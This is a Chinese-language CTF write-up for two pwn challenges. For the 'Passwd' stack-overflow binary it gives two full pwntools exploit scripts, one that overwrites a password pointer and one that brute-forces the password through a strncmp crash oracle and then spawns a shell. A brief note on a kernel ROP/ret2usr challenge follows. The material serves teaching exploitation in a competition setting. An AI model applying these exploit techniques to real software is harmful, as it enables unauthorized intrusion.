



Pwn¶
Passwd（简单的栈溢出，有两种思路可以利用）¶
解题思路一¶
文件读取结束后，相关的缓冲区数据会被清空吗? 不会吧，不会吧
(直接拿郭子仪同学的wp放上来了)
首先nop掉反调试, 恢复结构体

其中passwd指向我们读入的数据。 然后函数名字也rename一下。

然后看一下这个程序实际上在读取的时候可以将name溢出到passwd来修改passwd指针。

程序使用fopen读取真正的密码，而文件读取结束后相关缓冲区的并不会被清空。所以直接覆盖passwd指针到缓冲区即可。不过要稍微爆破一下。（一开始想复杂了，准备对着mmap一通操作，打freehook）。脚本其实不难，一开始确实想偏了。
最终结果¶

exp¶
# encoding=UTF-8 from pwn import * context.terminal='/bin/zsh' context.arch = "amd64" context.log_level = "debug" elf_path = "./passwd" elf = ELF(elf_path) libc = ELF("./libc-2.23.so") ip = "www.povcfe.site" port = 10001 #io = remote(ip, port) #io = process(elf_path) def input_name(buf): io.sendlineafter("Name:", buf) def input_size(size): io.sendlineafter("Length Of New Passwd:", str(size)) def input_passwd(buf): io.sendlineafter("Passwd:", buf) yes = "yes" no = "no" def yes_no(s): io.sendlineafter("yes/no?:", s) sw = "1" ac = "2" def choice(c): io.sendlineafter("[2]:Start A New Article", c) def input_ac(buf): io.sendlineafter("Article(end with '#'):", buf) while 1: #io = remote(ip, port) io = process(elf_path) input_name("abcd") input_size(24) input_passwd("123456") choice(sw) yes_no(yes) buf = "admin" buf += "\x00"*0xb # 填充至name结束，16个 buf += "\xa0\xd2" # 开始覆盖passwd指针的低位 input_name(buf) # pause() # attach(io) buf = "a"*0x14 input_passwd(buf) pause() attach(io) io.interactive()
郭子仪同学一开始陷入误区的原因是认为mmap基地址与libc基地址偏移固定，其实两者的偏移在不同系统上有可能是不同的。换个思路，因为mmap与libc之间一定是以0x1000为基础进行偏移的，所以在这里可以适度爆破mmap与libc之间的固定偏移，那么这题也是可以做出来的
解题思路二¶
考虑一下strncmp函数是怎么判断字符串相等的?
前置知识¶
strncmp(str1, str2, n) 的实现原理，是通过逐字节比对直至n字节全部比对完毕，中间如果发现某字节不同，则函数返回。所以，假设str1[0]存储于合法地址，但是str1[1]存储于非法地址(无读取权限的地址)，那么如果在比对第一个字节时，str1与str2不同则正常函数返回，反之如果第一个字节相同，函数继续执行并读取第二个字节(str[1]存储于非法地址)，则程序异常退出。
解体思路¶
通过溢出可以控制passwd指向的地址，并且程序中存在由mmap开辟的固定内存块0x600000000000-0x600000004000，所以如果把passwd指向0x600000004000-1，那么根据程序的返回状态就可以判断第一个字节是否正确，根据这个方法可以把passwd逐字节爆破
exp¶
from pwn import * import time import sys # sh = process("./passwd") # ip = sys.argv[1] #sh = remote("172.16.202.302", 8888) sh = remote("geekgame.scuctf.com", 10001) # context.log_level = "debug" def login(name, passwd_len, passwd): sh.recvuntil("[+] Input Your Name:\n") sh.sendline(name) if(name == "admin"): sh.recvuntil("[+] Input Admin Passwd:") sh.sendline(passwd) else: sh.recvuntil("[+] Please Input The Length Of New Passwd:\n") sh.sendline(str(passwd_len)) sh.recvuntil("[+] Input The New Passwd:\n") sh.sendline(passwd) def switch_account(name, passwd): sh.recvuntil("[2]:Start A New Article\n") sh.sendline("1") sh.recvuntil("[+] Are You Sure To Switch Account? yes/no?:\n") sh.sendline("yes") sh.recvuntil("[+] Input The New Name:\n") sh.sendline(name) sh.recvuntil("[+] Input The Passwd:\n") sh.sendline(passwd) def new_article(context): sh.recvuntil("[2]:Start A New Article\n") sh.sendline("2") sh.recvuntil("[+] Input The Content Of Article(end with '#'):\n") sh.sendline(context) passwd = b"" num = 0 addr = 0x600000004000 ppp = 0 while(num < 19): login(b"povcfe", 22, b"aaa") new_article(b"aaaa#") addr = addr - 1 payload = b"admin" + b"a"*11 + p64(addr) while(1): ppp = ppp+1 for i in range(0x20, 0x80): try: try_passwd = passwd + chr(i).encode() switch_account(payload, try_passwd) except: num = num + 1 passwd = passwd + chr(i-1).encode() log.success("one byte is: " + chr(i-1)) break # sh = process("./passwd") sh.close() # sh = remote("172.16.202.132", 8888) sh = remote("geekgame.scuctf.com", 10001) break login(b"povcfe", 22, b"aaa") new_article("bbb#") log.success(str(ppp)) addr = 0x600000000000 while(1): payload = b"admin" + b"a"*11 + p64(addr) for i in range(0x20, 0x80): try_passwd = passwd + chr(i).encode() log.success(b"try passwd is: " + try_passwd) switch_account(payload, try_passwd) time.sleep(1) sh.sendline(b"echo bll") res = sh.recvline() if b"bll" in res: sh.interactive() log.success("over") break log.success(b"passwd is: " + try_passwd) break
Kernel_rop（简单的内核栈溢出）¶
-
一．Hint中给出学习内核基础知识的链接，同时hint3直接给出解题的详细步骤，只隐藏ROP构造部分，现已补全经典ROP
-
二．内核栈溢出除了hint给出的经典ROP利用，还可以使用ret2usr的利用方法(这个方法在hint3所给链接的隔壁，我专门把那篇文章放在了博客首行，并且给出了exp，编译之后直接运行就可以提权orz，竟然没人发现) ret2usr